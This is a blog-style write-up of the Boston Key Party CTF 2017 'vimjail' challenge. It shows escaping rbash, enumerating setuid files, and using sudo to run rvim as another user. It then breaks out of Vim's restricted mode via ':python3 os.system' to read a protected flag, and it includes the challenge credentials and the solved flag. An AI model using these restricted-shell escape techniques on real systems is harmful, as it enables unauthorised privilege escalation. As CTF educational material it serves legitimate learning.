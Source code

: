 ```yaml
---
layout: post
title: "Boston Key Party CTF 2017: vimjail write-up"
date: 2017-03-01 09:34:52 +0000
categories:
    - CTF
description: "Write-up of Boston Key Party CTF 2017: vimjail."
keywords: boston key party, boston key party 2017, vim, write-up
redirect_from: /p/20170301/
---
```


## vimjail (pwn 150)

> - `ssh ctfuser@ec2-54-200-176-5.us-west-2.compute.amazonaws.com`
> - password: `loginPWforVimJail`
>
> Can you read the flag?
>
> _UPDATES_
> - (13:38 UTC Saturday): The flag is not in `/tmp`.
> - (13:31 EST Saturday): new ip

## Looking around

Well, you would do `ls` first when you logged in, so do we. And there was
`~/flagReader`.

``` sh
ctfuser@ip-172-31-31-196:~$ ls -als /home/ctfuser/flagReader
12 ---S--x--- 1 topsecretuser secretuser 8768 Feb 25 08:42 /home/ctfuser/flagReader
```

If you try completion by pressing Tab key or try to move around using `cd`, it
fails with an error message from rbash. It's restricted bash, but you can simply
run `bash` to escape.

While moving around, we found nothing special without `/.flag`. Also there were
some `.s[a-z][a-z]` files under `/var/tmp/` and `/tmp/`, created by
`secretuser`. But there are not in fixed location when the problem server was
changed, so we thought there would be a way to run Vim under `secretuser`'s
permission.

``` sh
ctfuser@ip-172-31-31-196:~$ ls -als /.flag
4 -r-------- 1 topsecretuser topsecretuser 39 Feb 25 08:42 /.flag
```

We also tried to find setuid or setgid files, but there was only the previous
`flagReader`.

``` sh
ctfuser@ip-172-31-31-196:/tmp$ find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
/bin/ping
/bin/ping6
/bin/fusermount
/bin/umount
/bin/su
/bin/mount
/bin/ntfs-3g
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd
/usr/lib/x86_64-linux-gnu/utempter/utempter
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/crontab
/usr/bin/newuidmap
/usr/bin/at
/usr/bin/chage
/usr/bin/sudo
/usr/bin/bsd-write
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/ssh-agent
/usr/bin/passwd
/usr/bin/mlocate
/home/ctfuser/flagReader
```

<!-- more -->

## Jump into Vim

Suddenly [@zzoru](http://zzoru.github.io) mentioned that we can run
`sudo -u secretuser /usr/bin/rvim`. Later, I learned that `sudo` has `-l`,
`--list` option:

``` man
-l, --list  If no command is specified, list the allowed (and
            forbidden) commands for the invoking user (or the user
            specified by the -U option) on the current host.  A longer
            list format is used if this option is specified multiple
            times and the security policy supports a verbose output
            format.
```

So now we're able to run Vim under `secretuser`'s permission!

## rvim

So, what's rvim? You can see the description of it by typing `:help rvim` in
Vim:

``` vim
rvim    vim -Z      Like "vim", but in restricted mode (see |-Z|)   *rvim*
```

Again, `:help -Z`:

``` vim
                                                *-Z* *restricted-mode* *E145*
-Z              Restricted mode.  All commands that make use of an external
                shell are disabled.  This includes suspending with CTRL-Z,
                ":sh", filtering, the system() function, backtick expansion,
                delete(), rename(), mkdir(), writefile(), libcall(),
                job_start(), etc.
                {not in Vi}
```

Yes, it's the Vim version of rbash. We can't run `:!/home/ctfuser/flagReader`,
or `:set shell=/home/ctfuser/flagReader | shell` in restricted mode. Well, this
is the main content of vimjail.

## Jailbreak

Seeing `:version`, we found that it has extra patch 8.0.0056, so
[CVE-2016-1248](https://www.cvedetails.com/cve/CVE-2016-1248/) exploiting
modeline would also not work. However, it's containing `+python3` support. So
first we tried to execute Python with something like `:python3 print(1)`. And
that worked!

We just executed `flagReader`:

``` vim
:python3 import os; os.system('/home/ctfuser/flagReader')
```

Then it prints the flag. So the flag is
`flag{rVim_is_no_silverbullet!!!111elf}`.
